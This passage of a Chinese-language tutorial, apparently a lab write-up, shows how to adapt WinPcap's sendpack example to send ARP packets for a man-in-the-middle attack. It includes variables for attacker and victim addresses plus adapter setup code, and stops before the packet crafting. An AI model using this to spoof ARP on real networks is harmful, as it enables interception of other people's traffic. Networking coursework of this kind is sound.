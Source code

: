 直接使用vs打开Examples-pcap文件夹中的MakeaAll.sln的解决方案：

![1569923329545](C:%5CUsers%5C24538%5CDesktop%5COK%5CTemp%5Cimg%5C1569923329545.png)

![1569923323672](C:%5CUsers%5C24538%5CDesktop%5COK%5CTemp%5Cimg%5C1569923323672.png)

打开后发现解决方案中又十个项目，因为我们的任务是发送arp包实现中间人攻击，因此我们只需要用到其中的sendpack项目：

![1569923478014](C:%5CUsers%5C24538%5CDesktop%5COK%5CTemp%5Cimg%5C1569923478014.png)

选中该项目右键设置该项目为启动项目，之后启动解决方案就是运行sendpack项目了。现在就可以编辑sendpack.c代码了！



#### 3. 开始编码

1. 程序变量

   ```c
   	pcap_if_t* alldevs;			//网卡列表
   	pcap_if_t* d;				//选中的网卡
   	int i = 0;					//全局计数变量
   	int inum;					//定位选中的网卡
   	u_char* packet1[100];		//arp帧包1
   	u_char* packet2[100];		//arp帧包2
   
   	pcap_t *fp;					//启用网卡后的句柄
   	char errbuf[PCAP_ERRBUF_SIZE];		//错误缓冲区
   	int flood;							//发送包的数量
   
   	int self_mac[6];		//攻击者自己的mac地址
   	int victim1_ip[4];		//受害者1的ip
   	int victim1_mac[6];		//受害者1的mac地址
   	int victim2_ip[4];		//受害者2的ip
   	int victim2_mac[6];		//受害者2的mac地址
   
   ```

   

2. 检索网卡

   ```c
   	/* 检索设备列表 */
   	if (pcap_findalldevs(&alldevs, errbuf) == -1)
   	{
   		fprintf(stderr, "Error in pcap_findalldevs: %s\n", errbuf);
   		exit(1);
   	}
   ```

   

3. 选中并使用网卡

   ```c
   	/* 打开用户选中的网卡适配器 */
   	if ((fp = pcap_open_live(d->name,		// name of the device
   							 65536,			// portion of the packet to capture. It doesn't matter in this case 
   							 1,				// promiscuous mode (nonzero means promiscuous)
   							 1000,			// read timeout
   							 errbuf			// error buffer
   							 )) == NULL)
   	{
   		fprintf(stderr,"\nUnable to open the adapter. %s is not supported by WinPcap\n", argv[1]);
   		return 2;
   	}
   ```
